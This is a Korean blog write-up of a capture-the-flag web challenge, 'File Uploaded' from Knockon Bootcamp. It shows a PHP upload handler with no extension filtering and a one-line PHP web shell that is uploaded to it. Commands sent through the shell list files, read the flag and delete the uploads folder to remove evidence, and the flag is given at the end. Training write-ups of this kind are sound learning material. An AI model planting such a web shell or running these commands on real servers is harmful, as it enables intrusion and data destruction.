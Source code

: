 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 9. File Uploaded"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - File Upload
  - Command Injection
last_modified_at: 2024-09-15T18:30:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10007/>

![9. File Uploaded 1](/assets/images/writeup/web-hacking/knock-on/9_FILE_1.png)

![9. File Uploaded 2](/assets/images/writeup/web-hacking/knock-on/9_FILE_2.png)

|

|

|

### 목표

---

서버 파일에서 flag 찾기

|

### 공격 기법

---

File Upload

Command Injection

|

|

|

## 문제 코드

### upload.php

---

```php
<?php
require ("db.php");
if ($_SERVER['REQUEST_METHOD'] == 'POST' and $_POST['title'] and $_POST['content']) {
    if (isset($_FILES['file']) && $_FILES['file']['error'] == 0) {
        $uploadPath = './uploads/';
        $fileExtension = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
        $fileName = uniqid("file_", true) . '.' . $fileExtension;

        if (!is_dir($uploadPath)) {
            mkdir($uploadPath, 0777, true);
        }
        if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadPath . $fileName)) {
            try {
                $title = $_POST['title'];
                $content = $_POST['content'];
                $stmt = $conn->prepare("INSERT INTO upload (title, content,filename) VALUES (?, ?, ?)");
                $stmt->bind_param('sss', $title, $content, $fileName);

                $stmt->execute();
            } catch (mysqli_sql_exception $e) {
                echo "Query failed: " . $e->getMessage();
            }
            echo "<script>alert('$fileName')</script>";
            echo "<script>location.href='/dashboard.php?title=$title'</script>";
        } else {
            echo "<script>alert('Something wrong..');</script>";
            echo "<script>location.href='/index.php'</script>";
        }
    }

} else {
    ?>
    <!DOCTYPE html>
    <html>

    <head>
        <title>Upload File</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    </head>

    <body class="bg-dark text-white">
        <div class="container mt-5">
            <div class="row">
                <div class="col-md-6 offset-md-3">
                    <div class="card card-body bg-secondary">
                        <h2 class="text-center">Upload</h2>
                        <form action="/upload.php" method="post" enctype="multipart/form-data">
                            <div class="form-group">
                                <label for="title">Title</label>
                                <input type="text" id="title" name="title" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="content">Details</label>
                                <textarea id="content" name="content" rows="4" class="form-control"></textarea>
                            </div>
                            <div class="form-group">
                                <label for="file">Attach Image</label>
                                <input type="file" id="file" name="file" class="form-control-file">
                            </div>
                            <div class="form-group">
                                <input type="submit" value="Upload" class="btn btn-primary">
                            </div>
                        </form>
                    </div>
                </div>
            </div>
        </div>
        <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
        <script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.9.2/dist/umd/popper.min.js"></script>
        <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>
    </body>

    </html>
    <?php

}
?>
```

파일 확장자에 대한 필터링이 없음

|

|

|

## Exploit

```php
<?php
	system($_GET['id'])
?>
```

웹 쉘이 담긴 `.php`파일을 준비

`id` 파라미터를 통해 서버에 `명령어`를 실행할 수 있음

|

![9. File Uploaded 3](/assets/images/writeup/web-hacking/knock-on/9_FILE_3.png)

웹 쉘 파일을 업로드하면 파일명이 나옴. 복붙

파일 경로로 들어가면 파일이 실행되어 파일에 담긴 웹 쉘 코드가 실행됨

|

```bash
http://war.knock-on.org:10007/uploads/file_66e0e6517b6e37.93809256.php?id=ls
```

![9. File Uploaded 4](/assets/images/writeup/web-hacking/knock-on/9_FILE_4.png)

`?id=ls` 방금 업로드한 파일이 나타남

`id`파라미터로 서버에 명령을 내릴 수 있게됨

|

```bash
?id=ls ..
```

![9. File Uploaded 5](/assets/images/writeup/web-hacking/knock-on/9_FILE_5.png)

상위 경로로 가면 `flag`파일이 있음

|

```bash
?id=cat ../flag
```

![9. File Uploaded 6](/assets/images/writeup/web-hacking/knock-on/9_FILE_6.png)

`cat`으로 `flag` 출력

|

```bash
?id=rm -r ../uploads/*
```

마무리로 증거인멸

|

|

|

## Payload

### test.php

---

```php
<?php
echo system($_GET['id'])
?>
```

|

### url

---

```python
http://war.knock-on.org:10007/uploads/file_66e0e33fa34cf4.08493015.php?id=cat ../flag
```

|

|

### FLAG

---

```bash
KO{upl04d_w1th0ut_ch3ck_1s_d4ng3r0us}
```

|

---
